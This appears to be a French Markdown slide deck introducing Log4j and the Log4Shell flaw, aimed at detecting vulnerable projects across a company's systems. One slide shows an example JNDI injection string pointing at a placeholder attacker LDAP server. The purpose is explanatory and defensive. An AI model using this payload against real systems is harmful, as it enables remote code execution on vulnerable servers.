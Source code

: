 Log4j est le premier framework de gestion des logs à avoir été créé pour la plateforme java : 
- Formatage de sortie
- Type de sortie : Console, Fichiers, etc... 

![ fit vertical](img/console-output.png)

---
# Et la faille ?

-  Une classe distante peut être exécutée via une faille dans le moteur d'interpolation de Log4j2.

````
${jndi:ldap://serveur_pirate/message_malveillant}
````

![](https://media.giphy.com/media/MM0Jrc8BHKx3y/giphy.gif)

Est-ce que nous avons cette faille dans notre SI ?
 
---

# Comment détecter la faille ?

- Une recherche sur tous nos projets ? 💥

- Nos outils de builds (maven, gradle) ? 

## Sauf que nous avons beaucoup de projet... 💥

 

Et en plus certains projets sont spéciaux. Par exemple : il rajoute des librairies en dehors du gestionnaire des dépendances. 


---

# :bulb: J'ai eu une idée
